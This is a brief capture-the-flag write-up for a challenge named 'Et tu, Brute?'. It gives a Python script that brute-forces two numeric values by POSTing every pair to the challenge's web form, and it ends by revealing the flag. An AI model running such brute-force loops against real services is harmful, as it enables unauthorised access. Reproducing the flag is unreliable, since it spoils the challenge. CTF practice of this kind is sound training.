 # Et tu, Brute?

> I want to see how many people are actually my friends and aren't just pretending! Only my best friends get flags. You can check our friendship status at this website. [mhsctf-ettubrute.0xmmalik.repl.co](https://mhsctf-ettubrute.0xmmalik.repl.co/) (you may need to wait for the site to wake up)

Use brute force.

```python
import requests

url = "https://mhsctf-ettubrute.0xmmalik.repl.co/status.php"

found = False

for i in range(1,101):
        for j in range(1,101):
                data = {'number': i, 'number2': j}
                print("Trying " + str(i) + " and " + str(j)) 
                send = requests.post(url, data = data)
                if "flag" in str(send.content):
                        print("The numbers are: " + str(i) + "  and " +  str(j))
                        found = True
                        break
        if found == True:
                break
```

Using the script to find the values needed and submitting them will give the flag `flag{pur3_s7r3ngth}`.

